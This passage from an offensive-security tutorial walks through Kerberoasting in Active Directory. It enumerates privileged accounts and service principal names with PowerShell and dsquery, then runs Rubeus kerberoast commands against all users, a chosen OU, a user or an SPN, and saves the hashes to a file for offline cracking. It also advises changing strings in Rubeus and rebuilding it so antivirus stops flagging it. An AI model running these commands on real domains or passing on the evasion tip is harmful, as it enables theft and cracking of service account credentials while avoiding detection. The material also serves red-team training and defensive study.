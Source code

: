 ```powershell
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate
```

```powershell
dsquery * "ou=domain controllers,dc=yourdomain,dc=com" -filter "(&(objectcategory=computer)
(servicePrincipalName=*))" -attr distinguishedName servicePrincipalName > spns.txt
```

There are more techniques out there such as `Get-DomainUser -SPN` as talked about above and a lot of other ways that I will leave to your imagination. 

Now we are armed with target accounts let's boot up `Rubeus`



**Exploit**



To get Rubeus you will actually need `Visual Studio 2017` or anything that can compile `.NET`. In my case I use Visual Studio and build myself an assembly. Luckily at the moment the default build of Rubeus is only detected by one AV vendor on Virus Total however if your AV is flagging it just change some strings and comments and rebuild the project and your AV will shut up.  That's the beauty of open-source C# / .NET Projects, much easier to circumvent anti-virus solutions.



Armed with out assembly/exe we can simply drop it on the target **Domain-Joined Machine** in the context of a domain user and start Roasting. 



Rubeus Github has an amazing explanation on all it's features and it's ability to target specific `OU's` `Users` etc etc so I will try not to copy it word-for-word but merely show it's capabilities. 



First we can try to Roast all Users in the Current Domain (May be Noise)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast
```



Kerberoast All Users in a Specific OU (Good if Organization has all Service Accounts in a Specific OU)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local
```



This may generate a lot of Output so we can Output all the Hashes to a file for easier Management and Cracking.

```
/outfile:C:\Temp\TotallyNotHashes.txt
```



Roasting a Specific Users or SPN 

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice

PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local
```

